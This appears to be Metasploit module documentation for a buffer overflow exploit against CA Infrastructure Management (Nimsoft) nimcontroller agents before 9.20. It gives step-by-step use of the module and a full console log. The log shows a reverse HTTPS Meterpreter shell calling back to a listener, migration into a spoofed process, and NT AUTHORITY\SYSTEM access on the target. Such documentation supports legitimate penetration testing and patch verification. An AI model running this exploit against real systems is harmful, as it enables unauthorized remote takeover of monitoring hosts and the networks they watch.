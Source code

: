 ## Vulnerable Application

All CA Infrastructure Management monitoring agents prior to 9.20 are vulnerable to a buffer overflow vulnerability within the nimcontroller when using the directory_list probe. Since the directory_list probe requires read privileges the target host must also be vulnerable to CVE-2020-8010 to bypass ACL settings. Successful code execution will result in a NT AUTHORITY\SYSTEM shell, even if exploitation fails the remote service will not crash. You should be able to exploit the service an unlimited amount of times.

## Verification Steps

1. Install the CA UIM v7.80.3132 (nimsoftrobotXXX.exe)
2. Start `msfconsole`
3. Do `use exploit/windows/nimsoft/nimcontroller_bof`
4. Do `set RHOSTS <ip>`
5. Do `exploit`
6. Verify shell is opened and service is still accessible

## Links 

[CA UIM](https://techdocs.broadcom.com/content/broadcom/techdocs/us/en/ca-enterprise-software/it-operations-management/unified-infrastructure-management/9-0-2/getting-started/ca-uim-overview.html)
[Nimsoft Probe Utility](https://techdocs.broadcom.com/content/broadcom/techdocs/us/en/ca-enterprise-software/it-operations-management/unified-infrastructure-management/9-0-2/administering/run-probe-commands-from-a-command-prompt.html)

### Windows 10 x64

```
msf5 exploit(windows/nimsoft/nimcontroller_bof) > options 

Module options (exploit/windows/nimsoft/nimcontroller_bof):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DIRECTORY  C:\              no        Directory path to obtain a listing
   RHOSTS     W.X.Y.Z          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      48000            yes       The target port (TCP)


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     A.B.C.D          yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Windows Universal (x64) - v7.80.3132


msf5 exploit(windows/nimsoft/nimcontroller_bof) > exploit 

[*] Started HTTPS reverse handler on https://A.B.C.D:8443
[*] W.X.Y.Z:48000 - Executing automatic check (disable AutoCheck to override)
[*] https://A.B.C.D:8443 handling request from W.X.Y.Z; (UUID: rpsri4cm) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (A.B.C.D:8443 -> W.X.Y.Z:50980) at 2020-07-21 11:14:09 -0500
[*] W.X.Y.Z:48000 - Version 7.80 [Build 7.80.3132, Jun  1 2015] detected, sending directory_list probe

 Directory of C:\

 12/15/2019 06:24 PM  <DIR> $GetCurrent
 12/14/2019 01:41 AM  <DIR> $Recycle.Bin
 10/18/2019 05:55 PM  <DIR> Documents and Settings
 07/21/2020 10:15 AM  <DIR> pagefile.sys
 07/14/2020 03:41 PM  <DIR> PerfLogs
 06/10/2020 09:18 AM  <DIR> Program Files
 07/19/2020 01:37 PM  <DIR> Program Files (x86)
 07/14/2020 03:41 PM  <DIR> ProgramData
 12/15/2019 07:08 PM  <DIR> Recovery
 07/21/2020 10:15 AM  <DIR> swapfile.sys
 10/18/2019 04:04 PM  <DIR> System Volume Information
 12/15/2019 07:09 PM  <DIR> Users
 07/18/2020 02:20 PM  <DIR> Windows

[+] W.X.Y.Z:48000 - The target is vulnerable.

meterpreter > 
[*] Session ID 1 (A.B.C.D:8443 -> W.X.Y.Z:50980) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against DESKTOP-JICNNRT
[*] Current server process: notepad.exe (1860)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 7472
[+] Successfully migrated into process 7472

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(windows/nimsoft/nimcontroller_bof) > set DIRECTORY C:\\Users\\
DIRECTORY => C:\Users\
msf5 exploit(windows/nimsoft/nimcontroller_bof) > check

[*] W.X.Y.Z:48000 - Version 7.80 [Build 7.80.3132, Jun  1 2015] detected, sending directory_list probe

 Directory of C:\Users\

 03/19/2019 12:02 AM  <DIR> All Users
 12/15/2019 07:14 PM  <DIR> Default
 03/19/2019 12:02 AM  <DIR> Default User
 03/18/2019 11:49 PM  <DIR> desktop.ini
 07/19/2020 01:37 PM  <DIR> REDACTED
 12/15/2019 09:07 PM  <DIR> Public

[+] W.X.Y.Z:48000 - The target is vulnerable.
```

